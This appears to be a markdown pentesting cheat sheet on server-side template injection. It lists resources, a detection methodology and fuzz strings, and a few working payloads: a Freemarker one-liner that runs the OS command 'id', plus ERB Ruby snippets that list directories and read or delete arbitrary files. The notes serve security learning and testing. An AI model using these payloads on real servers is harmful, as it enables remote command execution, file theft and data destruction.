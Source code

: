# Extra Resources
- [SSTI Playlist - Seven Seas Security](https://www.youtube.com/playlist?list=PL1GDzLoRwyVCEG_dnWcQDbDXJSBw7lTOT)
- [James Kettle Presentation](https://portswigger.net/research/server-side-template-injection)
- [Hacktricks - SSTI Payloads](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
- [Gadgets for payloads - SSTI PwnFunction Video](https://www.youtube.com/watch?v=SN6EVIG4c-0)
# What it is
- When an attacker can inject a malicious payload through the native template language and it is executed by the server
- This happens because user input is concatenated into the template instead of being passed as data
# Context
- Plaintext context
- Code context
# Reconnaissance - Where to find
# Methodology
- Look for user controlled input that is reflected
- Enumerate the template engine being used by testing with multiple payloads
- If the previous step didn't work, try to trigger an error that discloses useful information
- Exploit
## Detect
- Fuzz with special characters frequently used in template expressions: 
```
${{<%[%'"}}%\
<%=foobar%>
<%= 7*7 %>
{7*7}
#{7*7}
${7*7}
{{7*7}}
${{7*7}}
[% 7*7 %]
```
- Use context-specific approaches:
    - Plaintext context
    - Code context
## Identify
![](/Images/SSTIPayloadTests.png)
- Make the application generate an error. This may disclose useful information to enumerate the template engine being used
# Some Payloads
## Craft payload
- Some of these payload may need to be prepended with appropriate characters so they close the template engine syntax correctly. E.g.: `}}`
- Some of these payload may need to be url encoded
- Use a public payload
- For more specific payloads view the resources at the top (Hacktricks and James Kettle's presentation)
## Freemarker
```java
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("id") }
```
## ERB Ruby
```ruby
<%= Dir.entries('/').join(', ') %>
<%= Dir.glob('**file-name').first %>
<%= File.read('/file/path') %>
<%= File.delete('/file/path') %>
```
## Tornado
- Generic
```
data}}{{payload-1}}{{payload-2}}
```
- For specific payloads see Hacktricks 
